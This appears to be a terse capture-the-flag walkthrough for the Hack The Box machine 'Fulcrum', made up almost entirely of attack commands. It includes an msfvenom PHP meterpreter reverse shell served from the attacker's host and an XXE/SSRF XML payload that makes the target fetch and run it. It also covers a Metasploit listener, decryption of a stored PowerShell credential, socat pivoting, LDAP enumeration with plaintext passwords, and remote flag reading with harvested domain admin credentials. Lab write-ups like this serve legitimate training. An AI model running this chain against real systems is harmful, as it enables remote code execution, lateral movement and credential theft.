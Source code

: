 # Fulcrum
#### 10.10.10.62
###### Dotaplayer365

# General Notes


=> Host a php reverse shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.171 LPORT=4442 > dotashell.php

python -m SimpleHTTPServer 80

=> create xml.txt
xml.txt: 

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.171/dotashell">
]>
<r>&sp;</r>

=> start Listner
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 
set LPORT 
run

=> Exec Payload
curl -d @xml.txt http://10.10.10.62:56423

=> decrypt Password present inside Fulcrum_Upload_to_Corp.ps1
Decrypt Password from ps1:
(New-Object System.Management.Automation.PSCredential 'N/A', $4).GetNetworkCredential().Password

Username: WebUser
Pass: M4ng£m£ntPa55

=> Connecting to remote powershell 

On meterpreter:
download this on the remote machine
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
make it executable
forward ports:
./socat tcp-listen:5986,reuseaddr,fork tcp:192.168.122.228:5986

./socat tcp-listen:5986,reuseaddr,fork tcp:10.10.10.62:5986

Use windows machine to get the remote powershell with this script
------------------------------------------------
$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA='
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

#Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
$o = New-PSSessionOption -SkipCACheck -SkipCNCheck
Enter-PSSEssion -Computer 192.168.1.106 -Credential $5 -UseSSL -SessionOption $o
------------------------------------------------

=> ps -aux on linux machine to find the cmdk names

10.25.25.1 => PfSense
10.25.25.2 => DC (LDAP)
10.25.25.3 => FILE Vm

=>Testing LDAP Creds to get Btables
------------------------------------------------
if ($env:computername  -eq $env:userdomain) { echo " no AD domain" } else { echo "must be in AD"}
no AD Domain
------------------------------------------------
$entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local","FULCRUM\LDAP","PasswordForSearching123!")
$searcher = new-object directoryservices.directorysearcher($entry);
$searcher.filter = "(objectClass=user)";
$searcher.findAll() | Select Path
------------------------------------------------
$entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local","FULCRUM\LDAP","PasswordForSearching123!")
$searcher = new-object directoryservices.directorysearcher($entry);
$searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
$searcher.findAll() | Select Path
$searcher.filter ="(objectClass=user)"
$results = $searcher.findAll()
foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
------------------------------------------------

=> Information about BTables User on the File Server
BTables@fulcrum.local
Username : BTables
Password : ++FileServerLogon12345++
Has logon rights to the file server

=> GET USER.TXT
 Invoke-Command -Computername file.fulcrum.local -ScriptBlock {type C:\Users\BTables\Desktop\user.txt} -credential $cred

=> Issue commands on file server
$session = New-PSSession –ComputerName file.fulcrum.local -credential $creds


Invoke-Command –Session $session –ScriptBlock {whoami}

=> There is check-auth.ps1 which has a script
Copy just the script into a ps1 file with tail 
ruin it with parameteres merged.txt
get domain admin creds 
923a,@fulcrum_bf392748ef4e_$

=> get root.txt
Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke
-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {type ../../Administrator/Desktop/root.txt}}


